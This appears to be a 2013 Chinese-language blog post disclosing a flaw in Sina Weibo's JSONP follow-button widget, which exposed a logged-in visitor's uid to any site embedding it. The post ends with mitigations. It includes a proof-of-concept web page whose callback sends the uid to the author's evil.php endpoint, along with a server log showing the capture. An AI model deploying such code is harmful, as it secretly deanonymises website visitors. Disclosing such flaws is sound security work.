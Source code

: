 ```yaml
---
layout: post
title: "Who Are You"
date: 2013-01-25 22:20
comments: true
categories: 
---
```


这两天在研究新浪的第三方插件实现，发现通过利用新浪微博的某个URL能让我获取当前访问这个URL的用户的微博uid。也就是说只要在某个网站中嵌入一段代码，这段代码在后台偷偷的的访问那个URL，然后就可以把访问这个网站的用户的微博uid获取到，于是隐私就被泄露了…… 也就是说一个网站可以知道有哪些微博用户访问了它，然后可以就此采取一系列的措施……  
下面就具体讲讲这个漏洞是怎么回事。

<!-- more -->

## 问题
大家都知道微博会提供一些第三方插件(widget)用来放在其他网站上，其中有一个就是关注按钮。通过这个关注按钮用户就可以在第三方网站上直接关注某个人，如果当前访问用户已经关注过了，则该关注按钮会显示已关注。接下来我们就要看看在一个第三方的网站上新浪微博是怎样知道当前访问用户是否已经关注了某个账号，而这个涉及到JavaScript跨域问题。通过查看插件的js代码和浏览器的http请求，发现如果引入关注按钮插件的话会有如下的一个http请求：
	http://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_13591259816211

返回结果是：
	STK_13591259816211({"code":"100000","msg":"success","data":{"relation":3,"login":true,"uid":2369955640}})

从这个http请求来看新浪采用了[jsonp](http://en.wikipedia.org/wiki/JSONP)技术来解决跨域问题。从返回结果猜测data.relation应该表明当前用户和fuid用户之间的关系，可能是是否关注fuid，是否双向关注等等。问题的关键是新浪把当前用户的uid也返回回来了，如果第三方网站能获取这个uid，就能知道当前访问用户是谁了。

## 示例
接下来我就写了一个demo来模拟这个过程。首先是先写一个第三方网页：
``` html
<!doctype html>
<html>
<head>
</head>
<body>
<p> Hello World </p>
<script>
function STK_1(data) {
var uid = data.data.uid;
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://www.jjyao.me/evil.php?uid=" + uid, true );
xmlHttp.send(null);
}
</script>
<script src="http://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_1"></script>
</body>
</html>
```
每当用户访问这个网页的时候就在后面发一个aj_relationship.php的请求，然后指定一个已经定义好的callback，这样等请求结果返回后指定的callback就会被执行，于是就可以获取到当前登陆用户的微博uid了，最后要做的就是将这个uid传回给服务器保存起来。而这个可以通过服务器的log来实现，比如Nginx有access log，会将每个访问的url记录在日志中，结果如下：
	219.219.125.217 - - [25/Jan/2013:14:38:39 +0000] "GET /evil.php?uid=2369955640 HTTP/1.1" 200 31 "http://www.jjyao.me/index.html" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_2) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.56 Safari/537.17"
于是在服务器端就可以统计有哪些微博用户访问了这个网站，他们都是谁。

正如上面所说的那样，只要添加一些简单的代码，一个网站就可以知道哪些用户访问了，因为知道微博账号实际上很大程度等于知道了用户的真实身份。也就是说通过微博的这么一个漏洞，我们的隐私被泄露了，我们实际上没有匿名访问一个网站，而都是实名在访问，想想还是蛮可怕的。

## 解决
解决这个问题的手段无非就是两大类：一类是用户在客户端解决，一类是新浪在服务端解决。

### 客户端解决
我尝试了不记住密码，在Chrome的Incognito Window中打开两种方法但是都不可行，因为这两种方法虽然不会长期记住cookie，但仍然会短期的记住直到比如说浏览器关闭为止。因此要在客户端解决的话可以选择彻底禁止cookie，或者每次刷完微博后都清除微博设置的cookie，然后再去访问其他网站。

### 服务器端解决
服务器端解决最简单的方法就是不返回uid信息。但如果一定要返回uid信息的话就要采用比较复杂的方法了。
